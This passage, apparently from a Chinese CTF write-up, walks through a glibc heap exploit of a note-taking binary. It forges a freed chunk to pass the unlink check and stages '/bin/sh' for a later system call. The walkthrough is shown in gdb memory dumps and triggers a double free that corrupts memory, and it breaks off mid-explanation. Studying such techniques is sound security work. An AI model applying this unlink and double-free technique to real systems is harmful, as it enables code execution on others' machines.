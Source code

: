 有了heap的地址，我们就可以创建一个伪chunk，这个chunk是已经free的，其`fd`和`bk`指向heap上的某处，具体地，`fd->bk=bk->fd=ptr`。这里我们先创建note0，其内容中包含我们构造的伪chunk；然后创建note1，内容是`/bin/sh`用来后面调用`system`；然后再创建note2，其内容中包含多个构造的chunk

具体地，我们创建完这3个note后，真正的chunks如下

{% highlight bash %}
gdb-peda$ x/4gx 0x604820
0x604820:       0x0000000000000000      0x0000000000000091
0x604830:       0x0000000000000000      0x00000000000001a1
gdb-peda$ x/4gx 0x604820+0x90
0x6048b0:       0x0000000000000090      0x0000000000000091
0x6048c0:       0x0068732f6e69622f      0x0000000000000000
gdb-peda$ x/4gx 0x6048b0+0x90
0x604940:       0x0000000000000000      0x0000000000000291
0x604950:       0x6161616161616161      0x6161616161616161
gdb-peda$ x/4gx 0x604940+0x290
0x604bd0:       0x0000000000000000      0x0000000000020431
0x604be0:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

但如果从伪chunks来看，其布局是这样的：
{% highlight bash %}
gdb-peda$ x/4gx 0x604830
0x604830:       0x0000000000000000      0x00000000000001a1
0x604840:       0x0000000000603018      0x0000000000603020
gdb-peda$ x/4gx 0x604830+0x1a0
0x6049d0:       0x00000000000001a0      0x0000000000000090
0x6049e0:       0x6161616161616161      0x6161616161616161
gdb-peda$ x/4gx 0x6049d0+0x90
0x604a60:       0x0000000000000000      0x0000000000000091
0x604a70:       0x6161616161616161      0x6161616161616161
gdb-peda$ x/4gx 0x604a60+0x90
0x604af0:       0x0000000000000000      0x0000000000000091
0x604b00:       0x6161616161616161      0x6161616161616161
gdb-peda$ x/4gx 0x604af0+0x91
0x604b81:       0x0000000000000000      0x0000000000000000
0x604b91:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

`0x604830`处的伪chunk是已经free的了，可以从`0x6049d8`处看出；而`fd=0x603018`，`bk=0x603020`，满足`fd->bk = bk->fd = ptr = 0x604830`。这是因为`0x604830`作为note字符串的地址，被存在heap上了:

{% highlight bash %}
gdb-peda$ x/gx 0x603030
0x603030:       0x0000000000604830
{% endhighlight %}

这也是我们第一步需要heap的基址的原因。

然后，我们删除掉note3。因为第一次创建note3所分配的chunk恰好就是`0x6049d0`，在第一次删除note3的时候这个地址没有被更改；然后我们的伪chunk也在`0x6049d0`，于是double free。而现在`0x6049d0`这个伪chunk的内容完全是我们控制的。具体地，这个chunk不是free的（`0x604a68`），前面的是已经free的`0x604830`，后面是`0x604a60`，也不是free的（`0x604af8`）。于是这两个chunk会被合并，具体地，`0x604830`会从双向链表上去掉，与`0x6049d0`合并之后，插入到unsorted bin。在`0x604830`从双向链表上去掉时发生`unlink`，造成修改。

删除掉note3，我们看到合并之后的`0x604830`，大小是`0x1a0+0x90=0x230`，被放到了bins[0]，即unsorted bin:
